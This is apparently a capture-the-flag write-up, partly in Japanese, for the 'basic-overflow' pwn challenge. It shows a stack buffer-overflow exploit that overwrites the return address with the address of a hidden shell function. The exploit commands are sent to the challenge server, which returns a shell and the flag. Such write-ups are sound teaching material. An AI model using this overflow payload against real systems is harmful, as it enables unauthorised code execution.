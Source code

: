 # basic-overflow:Pwn:100pts
This challenge is simple.  
It just gets input, stores it to a buffer.  
It calls `gets` to read input, stores the read bytes to a buffer, then exits.  
What is `gets`, you ask? Well, it's time you read the manual, no?  
`man 3 gets`  
Cryptic message from author: There are times when you tell them something, but they don't reply. In those cases, you must try again. Don't just shoot one shot; sometimes, they're just not ready yet.  

`nc 34.123.15.202 5000`  
[basic-overflow](basic-overflow)  

Hint  
If you don't have the manual in your machine, you can enter the command in google to read it online :)  
Hint  
There are a lot of nice ways to see how the program works!  
There's IDA (very expensive software!) Ghidra is a free one, made by the NSA And there's good old objdump, a lightweight disassembler  
Why don't you try one of these while you're waiting for output?  

# Solution
BasicなBOFらしい。  
リターンアドレスまでを調査する。  
```bash
$ checksec --file=./basic-overflow --format=csv
Partial RELRO,No Canary found,NX enabled,No PIE,No RPATH,No RUNPATH,Symbols,No,0,1,./basic-overflow
$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEF' | strace -i ./basic-overflow
~~~
[00007fdf22c8c5f2] read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 4096) = 78
[00007fdf22c8c5f2] read(0, "", 4096)    = 0
[0000464544434241] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x464544434241} ---
[????????????????] +++ killed by SIGSEGV +++
Segmentation fault
```
内部にシェルをとる関数がありそうなので調査する。  
```bash
$ objdump -D ./basic-overflow

./basic-overflow:     file format elf64-x86-64
~~~
0000000000401136 <shell>:
  401136:       55                      push   %rbp
  401137:       48 89 e5                mov    %rsp,%rbp
  40113a:       ba 00 00 00 00          mov    $0x0,%edx
  40113f:       be 00 00 00 00          mov    $0x0,%esi
  401144:       48 8d 05 b9 0e 00 00    lea    0xeb9(%rip),%rax        # 402004 <_IO_stdin_used+0x4>
  40114b:       48 89 c7                mov    %rax,%rdi
  40114e:       e8 dd fe ff ff          call   401030 <execve@plt>
  401153:       90                      nop
  401154:       5d                      pop    %rbp
  401155:       c3                      ret

0000000000401156 <main>:
  401156:       55                      push   %rbp
  401157:       48 89 e5                mov    %rsp,%rbp
  40115a:       48 83 ec 40             sub    $0x40,%rsp
  40115e:       48 8d 45 c0             lea    -0x40(%rbp),%rax
  401162:       48 89 c7                mov    %rax,%rdi
  401165:       b8 00 00 00 00          mov    $0x0,%eax
  40116a:       e8 d1 fe ff ff          call   401040 <gets@plt>
  40116f:       b8 00 00 00 00          mov    $0x0,%eax
  401174:       c9                      leave
  401175:       c3                      ret
~~~
```
`shell`があるようだ。  
そこまで飛ばしてやる。  
```bash
$ (echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x36\x11\x40\x00\x00\x00\x00\x00';cat) | ./basic-overflow
whoami
satoki
```
リモートへ試行する。  
```bash
$ (echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x36\x11\x40\x00\x00\x00\x00\x00';cat) | nc 34.123.15.202 5000
id
uid=1000 gid=1000 groups=1000
ls
flag
run
cat flag
uoftctf{reading_manuals_is_very_fun}
```
flagが得られた。  

## uoftctf{reading_manuals_is_very_fun}